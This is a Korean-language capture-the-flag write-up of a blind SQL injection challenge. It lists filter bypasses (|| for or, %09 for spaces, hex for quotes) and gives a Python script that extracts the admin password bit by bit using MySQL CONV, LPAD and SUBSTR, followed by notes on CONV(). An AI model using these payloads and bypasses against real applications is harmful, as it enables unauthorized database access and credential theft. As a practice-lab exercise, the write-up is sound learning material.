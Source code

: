 # 문제

- 블라인드 인젝션 문제이다.
- no, id, pw를 입력받는다
- 로그인 성공시 successful 페이지로 이동된다.
  - 실패시 failure 페이지로 이동된다.
- 몇가지 필터가 걸려있다.




#  풀이

- admin으로 로그인하면 될것같다.
- 필터링 되는것을 찾자
  - `or`
    - `||`로 우회
  - 띄어쓰기
    - `%09`로 우회
  - 싱글쿼터 - 시도 안해봤는데 막혀있을것 같다.
    - 헥스값으로 우회

- admin으로 로그인시 password를 입력하는 페이지가 나온다.

  - 테이블, 컬럼 이름을 알아내서 패스워드값을 추출하자

- 새롭게 알게된 efficient sql injection 방식으로 코딩했다.

  ```python
  while True:
      words = ''
      for idx in range(7):
          payload = '999||id\tlike\t'+'0x'+'admin'.encode('hex')
          payload += '&&substr(lpad(conv(hex(substr(pw,{0},1)),16,2),7,0),{1},1)=1'.format(len(flags)+1, idx+1)
  
          print 'payload: ' + payload
          params = {'no': payload, 'id': '123', 'pw': 'asdf'}
          res = requests.get(url+page, params = params, cookies=cookies)
          if res.text.find('Failure')!=-1:
              words += '0'
          else:
              words += '1'
  
      print 'founded words'
      print 'bin: ' + words
      print 'int: ' + str(int(words,2))
      ch = chr(int(words,2))
      print 'chr: ' + ch
      if ch == '\00':
          break
      else:
          flags += ch
  print '------------'
  print '------------'
  print '------------'
  print 'founded flags successfully...'
  print 'flags: ' + flags
  ```

  


# 알게된 것

### CONV() in sql

- 아무 진법의 수를 원하는 진법의 수로 바꿔준다.

- 실사용 예

  - `conv('a', 16, 2)`

    - `'a'`는 `ord`로 변환해주지 않는 이상 16진수인 61로 반환이 된다.
    - 따라서 2진수로 변환해주고 싶을 때 위처럼 `conv`를 이용해야 한다.

  - 같은 10진수 숫자를 10진수, 2진수로 변환

    ```mysql
    mysql> select conv('10101', 10, 10);
    +-----------------------+
    | conv('10101', 10, 10) |
    +-----------------------+
    | 10101                 |
    +-----------------------+
    1 row in set (0.00 sec)
    
    mysql> select conv('10101', 10, 2);
    +----------------------+
    | conv('10101', 10, 2) |
    +----------------------+
    | 10011101110101       |
    +----------------------+
    1 row in set (0.00 sec)
    ```

- `or` 키워드가 막혀있을 경우 `ord` 함수도 안된다..ㅠㅠ
  - 이때 conv를 사용하면 유용하다.